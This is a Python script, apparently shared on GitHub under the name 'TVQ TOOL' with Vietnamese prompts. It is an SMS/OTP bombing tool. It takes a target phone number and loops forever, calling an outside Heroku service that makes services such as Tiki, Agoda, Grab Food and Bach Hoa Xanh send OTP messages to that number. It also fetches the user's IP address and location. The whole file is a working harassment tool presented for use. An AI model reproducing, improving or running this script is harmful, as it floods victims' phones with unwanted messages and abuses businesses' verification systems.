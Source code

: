 from pystyle import Add, Center, Anime, Colors, Colorate, Write, System
from calendar import weekheader
from time import sleep
import requests
stt=0
from time import sleep
import requests
import os, sys, requests, random
import time
from random import choice, randint, shuffle
try:
  from pystyle import Center, Anime, Colors, Colorate
except:
  os.system('pip install pystyle')  
logo="""
  █████   █    ██▓██   ██▓▓█████▄▄▄█████▓
▒██▓  ██▒ ██  ▓██▒▒██  ██▒▓█   ▀▓  ██▒ ▓▒
▒██▒  ██░▓██  ▒██░ ▒██ ██░▒███  ▒ ▓██░ ▒░
░██  █▀ ░▓▓█  ░██░ ░ ▐██▓░▒▓█  ▄░ ▓██▓ ░ 
░▒███▒█▄ ▒▒█████▓  ░ ██▒▓░░▒████▒ ▒██▒ ░ 
░░ ▒▒░ ▒ ░▒▓▒ ▒ ▒   ██▒▒▒ ░░ ▒░ ░ ▒ ░░   
 ░ ▒░  ░ ░░▒░ ░ ░ ▓██ ░▒░  ░ ░  ░   ░    
   ░   ░  ░░░ ░ ░ ▒ ▒ ░░     ░    ░      
    ░       ░     ░ ░        ░  ░        
                  ░ ░                 """      
print(Colorate.Diagonal(Colors.red_to_yellow, Center.XCenter(logo)))      
Write.Print('==========================================================================='+'\n' ,Colors.red_to_yellow, interval=0.005)
Write.Print('Bản Quyền: Trần Văn Quyết'+'\n' ,Colors.red_to_yellow, interval=0.005)
Write.Print('==========================================================================='+'\n' ,Colors.red_to_yellow, interval=0.005)
ip = requests.get('https://api.ipify.org').text.strip()
loc = requests.get('https://ipapi.com/ip_api.php?ip=' + ip, headers={'Referer': 'https://ip-api.com/', 'Content-Type': 'application/json; charset=utf-8', 'User-Agent': 'Mozilla/5.0 (Linux; Android 7.1.2; Redmi 4X) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.92 Mobile Safari/537.36'}).json()['country_name'].lower()
Write.Print('IP của bạn: '+ip+'\n' ,Colors.red_to_yellow, interval=0.005)
Write.Print('==========================================================================='+'\n' ,Colors.red_to_yellow, interval=0.005)
Write.Print('Location: '+loc+'\n' ,Colors.red_to_yellow, interval=0.005)
Write.Print('==========================================================================='+'\n' ,Colors.red_to_yellow, interval=0.005)
phone=Write.Input("Nhập SDT (Lưu Ý Bỏ Số 0 Ở Đầu): " ,Colors.red_to_yellow, interval=0.005)
time_delay = Write.Input('Time Delay: ' ,Colors.red_to_yellow, interval=0.005)
Write.Print('==========================================================================='+'\n' ,Colors.red_to_yellow, interval=0.005) 
while True:
    stt=stt+1
    requests.get(f'https://howtospamsms.herokuapp.com/the-gioi-di-dong?phone={phone}')  
    Write.Print(f"[ {stt} ] [ TVQ TOOL] => Sen OTP The-Gioi-Di-Dong"+" "+phone+"\n" ,Colors.red_to_yellow, interval=0.005)
    
    stt=stt+1
    requests.get(f'https://howtospamsms.herokuapp.com/nhap-hang-247?phone={phone}')
    Write.Print(f"[ {stt} ] [ TVQ TOOL] => Sen OTP Nhap-Hang-247"+" "+phone+"\n" ,Colors.red_to_yellow, interval=0.005)
    
    stt=stt+1
    requests.get(f'https://howtospamsms.herokuapp.com/elines?phone={phone}')
    Write.Print(f"[ {stt} ] [ TVQ TOOL] => Sen OTP Elines"+" "+phone+"\n" ,Colors.red_to_yellow, interval=0.005)
    
    stt=stt+1
    requests.get(f'https://howtospamsms.herokuapp.com/meta-vn?phone={phone}')
    Write.Print(f"[ {stt} ] [ TVQ TOOL] => Sen OTP Meta-VN"+" "+phone+"\n" ,Colors.red_to_yellow, interval=0.005)
    
    stt=stt+1
    requests.get(f'https://howtospamsms.herokuapp.com/bach-hoa-xanh?phone={phone}')
    Write.Print(f"[ {stt} ] [ TVQ TOOL] => Sen OTP Bach-Hoa-Xanh"+" "+phone+"\n" ,Colors.red_to_yellow, interval=0.005)
    
    stt=stt+1
    requests.get(f'https://howtospamsms.herokuapp.com/grab-food?phone={phone}')
    Write.Print(f"[ {stt} ] [ TVQ TOOL] => Sen OTP Grab-Food"+" "+phone+"\n" ,Colors.red_to_yellow, interval=0.005)
    
    stt=stt+1
    requests.get(f'https://howtospamsms.herokuapp.com/tiki?phone={phone}')
    Write.Print(f"[ {stt} ] [ TVQ TOOL] => Sen OTP Tiki"+" "+phone+"\n" ,Colors.red_to_yellow, interval=0.005)
    
    stt=stt+1
    requests.get(f'https://howtospamsms.herokuapp.com/go2joy?phone={phone}')
    Write.Print(f"[ {stt} ] [ TVQ TOOL] => Sen OTP Go2joy"+" "+phone+"\n" ,Colors.red_to_yellow, interval=0.005)
    
    stt=stt+1
    requests.get(f'https://howtospamsms.herokuapp.com/vntrip?phone={phone}')
    Write.Print(f"[ {stt} ] [ TVQ TOOL] => Sen OTP Vntrip"+" "+phone+"\n" ,Colors.red_to_yellow, interval=0.005)
    
    stt=stt+1
    requests.get(f'https://howtospamsms.herokuapp.com/agoda?phone={phone}')
    Write.Print(f"[ {stt} ] [ TVQ TOOL] => Sen OTP Agoda"+" "+phone+"\n" ,Colors.red_to_yellow, interval=0.005)
    
    stt=stt+1
    requests.get(f'https://howtospamsms.herokuapp.com/vieon?phone=0{phone}')
    Write.Print(f"[ {stt} ] [ TVQ TOOL] => Sen OTP Vieon"+" "+phone+"\n" ,Colors.red_to_yellow, interval=0.005)
    for i in range(120, 0):
            print(f"Vui Lòng Đợi {i}\r")

